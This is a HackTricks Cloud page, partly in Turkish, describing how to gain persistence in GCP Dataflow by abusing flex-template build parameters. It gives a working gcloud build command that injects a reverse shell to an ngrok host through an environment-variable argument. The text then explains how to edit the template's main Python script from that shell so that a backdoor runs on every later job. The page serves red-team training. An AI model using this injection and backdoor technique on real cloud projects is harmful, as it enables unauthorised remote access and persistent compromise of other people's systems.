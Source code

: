 # GCP - Dataflow Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Dataflow

### Görünmez kalıcılık in built container

Following the [**tutorial from the documentation**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) you can create a new (e.g. python) flex template:
```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
--repository-format=docker \
--location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
--image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
--sdk-language "PYTHON" \
--flex-template-base-image "PYTHON3" \
--metadata-file "metadata.json" \
--py-path "." \
--env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
--env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
--env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
--env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
--region=us-central1
```
**İnşa edilirken, ters bir shell alacaksınız** (önceki örnekte olduğu gibi env değişkenlerini veya Docker dosyasını rastgele şeyler çalıştıracak şekilde ayarlayan diğer parametreleri kötüye kullanabilirsiniz). Bu anda, ters shell içinde, **`/template` dizinine gidip çalıştırılacak ana python scriptinin kodunu değiştirmek mümkün (örneğimizde bu `getting_started.py`)**. Buraya arka kapınızı yerleştirin, böylece iş her çalıştırıldığında, bunu çalıştıracaktır.

Sonra, iş bir sonraki sefer çalıştırıldığında, oluşturulan tehlikeye atılmış konteyner çalıştırılacaktır:
```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
--template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
--parameters=output="gs://$REPOSITORY/out" \
--region=us-central1
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
